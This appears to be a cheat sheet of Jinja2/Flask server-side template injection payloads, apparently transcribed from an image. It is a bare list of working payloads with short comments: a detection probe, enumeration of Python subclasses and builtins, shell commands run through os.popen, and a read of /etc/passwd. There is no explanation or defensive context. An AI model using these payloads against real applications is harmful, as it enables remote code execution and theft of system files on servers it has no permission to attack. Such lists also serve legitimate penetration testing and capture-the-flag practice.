 #TESTING INJECTION CAPABILITIES
{{7*'7'}}

#ALL AVAILABLE CLASSES
{{ "".__class__.__mro__[1].__subclasses__() }}

#SEE PERMISIONS ON THE DIRECTORIES
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls -lah").read() }}

#SEE BUILTINS
{{ self.__init__.__globals__.__builtins__ }}

#READ ETC/PASSWD
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}

#READ ALL DIRECTORIES IN / PARTITION
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls /").read() }}
